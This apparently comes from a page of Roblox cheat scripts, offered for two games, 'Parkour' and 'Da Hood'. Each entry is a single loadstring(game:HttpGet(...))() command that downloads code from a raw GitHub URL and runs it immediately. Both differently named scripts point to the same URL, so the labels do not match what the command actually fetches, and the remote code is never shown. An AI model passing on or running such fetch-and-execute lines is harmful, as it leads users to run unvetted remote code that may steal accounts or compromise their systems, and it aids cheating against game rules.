 # Parkour Bag Finder Script
loadstring(game:HttpGet("https://raw.githubusercontent.com/dedegahatesyou/eae/main/ccccc"))()

# Da Hood Teleports and AutoBuy Script
loadstring(game:HttpGet("https://raw.githubusercontent.com/dedegahatesyou/eae/main/ccccc"))()
